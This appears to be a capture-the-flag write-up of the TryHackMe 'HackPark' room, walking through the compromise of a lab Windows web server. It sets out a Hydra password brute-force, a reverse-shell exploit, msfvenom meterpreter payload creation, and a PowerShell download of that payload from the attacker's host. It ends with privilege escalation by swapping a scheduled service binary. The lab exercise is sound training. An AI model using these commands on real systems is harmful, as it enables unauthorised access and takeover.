 ```yaml
---
title: HackPark-writeup-THM
date: 2022-12-28 
categories: [room, medium]
tags: [windows, privesc, hydra]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/hackpark">HackPark</a>"

First of all I am going to do a nmap scan:

```bash
nmap -Pn <Machine IP>

Starting Nmap 7.94SVN ( [https://nmap.org](https://nmap.org/) ) at 2023-12-28 05:20 EST
Nmap scan report for 10.10.100.75
Host is up (0.054s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.97 seconds
```

I have usend -Pn because the machine does not respond to ping.

We can see that it has port 80(web page) and port 3389(rdp) open.

For now I am just going to see the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/HackPark-writeup-THM/main/f9435039-eb3c-4916-95b0-d0ba6c645332_Export-6a5d592a-f11c-4d5a-b4c1-719215eeb992/HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled.png)

From here I can do a reverse image research with google images to uncover the clown identity!

```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt <Machine_IP> http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f?ReturnURL=/admin/:__VIEWSTATE=EOQdZQUirRo%2FPUM0GeZEHUCUj2T4rRAdTaQhFI1ySIpm9C8mzxvnNNrRnjAQpjhVlBKOWm1gYZ35tUhQtBunvQ4xbDH%2B0tCVubOn7duj0udoaup%2BbQ5ohSDr%2FkR3znBlND9uVF6IyceARqKMmH7Lr6Ybud38aeXVlK%2FHUbFoRC7QG7j2SmTr2Yo2DP9Z8iuvNgq3V%2F6TWN9zRuY5L41FLVK4aRfYv2wwJyCsYpMBCqqxwwbKVvzuKrxaztrLzQzW7yYMpMYMVupE4S6NoZ%2BI3eAoSEOX9EYCmHNJo7ArRyHf6NaUD4ziHK02Fxf7zNrhsEv6eMLzKY%2FwxcNNYPtZmPZraazfs5Eak1UrAb4bcd%2F5U674&__EVENTVALIDATION=vv0szo0PNWcBRD3S8W58LlYPikRW%2B87zibRx%2F2E7pAtvEDnvbhdcw%2FwUE3c9c3MRswdhWJXJYFE%2Ff4zg9IxkwN13iQf3WP6ILJMuG5mkvCeF1g9rdSkXPBc5%2FKAUY2e4duaTxrTr4klY8YZ4bVhdDhot4KoE7a8pfuEkc1chGV1n%2B4Iv&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed”

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 05:43:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.100.75:80/Account/login.aspx?ReturnURL=%2fadmin%2f?ReturnURL=/admin/:__VIEWSTATE=EOQdZQUirRo%2FPUM0GeZEHUCUj2T4rRAdTaQhFI1ySIpm9C8mzxvnNNrRnjAQpjhVlBKOWm1gYZ35tUhQtBunvQ4xbDH%2B0tCVubOn7duj0udoaup%2BbQ5ohSDr%2FkR3znBlND9uVF6IyceARqKMmH7Lr6Ybud38aeXVlK%2FHUbFoRC7QG7j2SmTr2Yo2DP9Z8iuvNgq3V%2F6TWN9zRuY5L41FLVK4aRfYv2wwJyCsYpMBCqqxwwbKVvzuKrxaztrLzQzW7yYMpMYMVupE4S6NoZ%2BI3eAoSEOX9EYCmHNJo7ArRyHf6NaUD4ziHK02Fxf7zNrhsEv6eMLzKY%2FwxcNNYPtZmPZraazfs5Eak1UrAb4bcd%2F5U674&__EVENTVALIDATION=vv0szo0PNWcBRD3S8W58LlYPikRW%2B87zibRx%2F2E7pAtvEDnvbhdcw%2FwUE3c9c3MRswdhWJXJYFE%2Ff4zg9IxkwN13iQf3WP6ILJMuG5mkvCeF1g9rdSkXPBc5%2FKAUY2e4duaTxrTr4klY8YZ4bVhdDhot4KoE7a8pfuEkc1chGV1n%2B4Iv&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.100.75   login: admin   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-28 05:44:04
```

Found the password!

Now we need to get a reverse shell, this can be done by searching in exploit DB using the database version in http://10.10.100.75/admin/about.cshtml

After we install the exploit, we need to change the attacker ip and port to ours

```bash
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<YOUR_IP>", <YOUR_PORT>)) {
```

Then we rename the file into PostView.ascx

After that we set up a listener:

```bash
nc -lvnp 4444
```

And we go to publish it

![Untitled](https://raw.githubusercontent.com/Blueaulo/HackPark-writeup-THM/main/f9435039-eb3c-4916-95b0-d0ba6c645332_Export-6a5d592a-f11c-4d5a-b4c1-719215eeb992/HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled%201.png)

After that we just want to go to this path: `http://10.10.10.10/?theme=../../App_Data/files` for triggering the reverse shell!

Now, we want to upgrade the shell using metasploit.

First of all we create our revshell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp  LHOST=<YOUR_IP> LPORT=4555 -f exe -o revshell.exe
```

then we set up our listener inside metasploit:

```bash
use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST <YOUR_IP>

LHOST => <YOUR_IP>
msf6 exploit(multi/handler) > set LPORT 4555

LPORT => 4555
```

Then we create a server using python:

 `python3 -m http.server 8000`

After that we need to install the reverse shell inside the windows machine,

We need to do this inside the `temp` folder, otherwise is not going to work:

```bash
powershell Invoke-WebRequest -Uri http://10.18.20.116:8000/revshell.exe -OutFile revshell.exe
```

Then we execute the file and we have the shell!

now we need to search for the OS, we just need to use **sysinfo**

And for the processes **ps**

The hint tells us to check “C:\Program Files (x86)”

So I did:

```bash
c:\Program Files (x86)>dir
 
Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Program Files (x86)
08/06/2019  01:12 PM    <DIR>          .
08/06/2019  01:12 PM    <DIR>          ..
08/22/2013  07:39 AM    <DIR>          Common Files
03/21/2014  11:07 AM    <DIR>          Internet Explorer
08/22/2013  07:39 AM    <DIR>          Microsoft.NET
12/28/2023  04:49 AM    <DIR>          SystemScheduler
08/22/2013  07:39 AM    <DIR>          Windows Mail
08/22/2013  07:39 AM    <DIR>          Windows NT
08/22/2013  07:39 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
               9 Dir(s)  39,124,586,496 bytes free
```

The only thing strange to me is SystemScheduler, if we open the directory, we can see a bunch of processes.

Going in the Events, directory, and opening the log file, will reval to us which is the abnormal service that is running.

We see that the service Message.exe run with the Administrator privileges, and we can use that in our favor.

Now we put in background the meterpreter shell, and then we want to restart the listener again.

Next thing to do is, rename the reverse shell in `/windows/temp` to Message.exe

Then remove Message.exe from the SystemScheduler directory, and put the reverse shell now named Message.exe in it.

Now we just need to start the process.

(Do this with ./Message.exe or Start-Process “Message.exe”)

And we got a Admin shell!

Then I found the jeff flag in: `C:\Users\Jeff\Desktop\user.txt`

And the root flag in: `C:\Users\Administrator\Desktop\root.txt`